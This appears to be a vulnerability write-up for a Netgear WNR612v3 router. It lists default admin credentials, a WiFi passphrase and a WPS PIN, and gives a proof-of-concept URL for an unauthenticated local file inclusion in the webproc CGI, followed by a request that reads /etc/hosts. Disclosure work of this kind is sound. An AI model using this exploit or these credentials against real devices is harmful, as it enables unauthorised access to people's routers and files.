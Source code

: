 #### 1. Info about the target device

- Name: `Netgear WNR612v3 v1.0.0.12`
- Admin URL: `http://10.0.0.1/cgi-bin/webproc`
- Login: `admin:password`
- WiFi : `NETGEAR01:unusualbird918`
- Latest firmware: `http://www.downloads.netgear.com/files/GDC/WNR612V3/WNR612v3_WNR500_V1.0.0.26.zip` (11/28/2016)
- Tested on: 12.04.2016
- Connect WiFi:
```
# wpa_supplicant -i wlan0 -c <(wpa_passphrase NETGEAR01 unusualbird918)
# dhclient wlan0
```
- Default WPS PIN: `96787786`


#### 2. Applicable hardening (optional)

```
1. no SSID broadcast (no security advantage)
2. SSID name (doesn't matter)
3. manual channel (4)
4. WPA2 - passphrase: MD5 ("long_alphanumeric_randrom_string")
5. guest network     - off
6. remote management - off
7. WPS (router PIN)  - off
8. client MAC ACL    (no security advantage)
9. altered AP MAC address (no security advantage)
```

#### 3. Unauthenticated LFI

PoC URL:

```
http://10.0.0.1/cgi-bin/webproc?getpage=[file_system_page]&var:page=*
```

Clue:

```
# http "http://10.0.0.1/cgi-bin/webproc?getpage=XXXX&var\:page=\*" -b
[FORMATTING CUT]
Content-type: text/html

Error. Pagefile open failed(File:XXXX, PWD:/usr/www)
```

#### 4. LFI exploitation examples

##### 4.1. Getting `hosts` file

```
$ http http://10.0.0.1/cgi-bin/webproc?getpage=/etc/hosts\&var\:page=\* -b
127.0.0.1 localhost
10.0.0.1 www.routerlogin.com
10.0.0.1 www.routerlogin.net
10.0.0.1 routerlogin.com
10.0.0.1 routerlogin.net
```
